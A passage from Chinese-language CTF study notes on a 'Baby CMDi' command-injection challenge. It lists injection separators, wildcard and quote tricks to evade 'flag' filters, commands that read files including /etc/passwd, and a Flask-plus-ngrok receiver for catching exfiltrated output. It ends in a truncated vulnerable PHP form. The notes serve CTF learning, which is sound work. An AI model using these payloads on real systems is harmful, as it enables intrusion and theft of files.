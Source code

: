 ``` & | ; cat flag ` ```
2. flag 迴避方式
    - `./f*` == `./fl*` == `./fla*` == `./flag`
    - `./f???` == `./flag` == `./flxx`
    - `./fl\ag`
    - `./fl${wtf}ag` == `./fl''ag` wtf 未被賦值 所以為 null 
    - `a=fl b=ag ${a}${b}`
    - 使用 `grep -r` 不需要加上檔名 只需接上要尋找的字串

3. 綜合技
    - `/???/c?? ./f???`
    - `/u*r/*d ./f?*`
    - `grep -iP "{[a-zA-Z0-9_]*}" fl\ag`
    - `diff ./fl* /etc/passwd`
    - `grep -r "{"`

> 補充 : 用 Python Flask 和 webhook 建立簡單 request 接收器
> 
> 首先先建立一個 python 檔
> 
> ```python=
> from flask import Flask, request, abort
> 
> app = Flask(__name__)
> 
> @app.route("/", methods=['POST','GET'])
> def get_data():
>         body = request.get_data(as_text=True)
>         print(body)
>         return 'OK'
> 
> import os
> if __name__ == "__main__":
>     port = int(os.environ.get('PORT', 80))
>     app.run(host='0.0.0.0', port=port)
> ```
> 這個 python 可以幫我們把 Flask run 起來，並且在 `0.0.0.0:80` 上執行
> 
> 接下來要新增一個 webhook 將連結導向我們的本機端，這裡使用 ngrok
> 要先下載好 ngrok 喔!
>
> ```bash=
> ./ngrok http 80
> ```
> 
> 最後只需要將前面 curl 的連結改成在 ngrok 上看到的連結即可
> ![](https://i.imgur.com/4DxqNv4.png)
> 
> 最後我們的結果可以在 python 中看到
> ![](https://i.imgur.com/PNl0NM3.png)

> source code

```htmlembedded=
<html>
<body>
<h2>Baby CMDi</h2>

<form action="index.php" method="POST">
<input name="ip" type="text" placeholder="Enter IP" /><br />
<input type="submit" value="Submit" />
</form>

<?php
```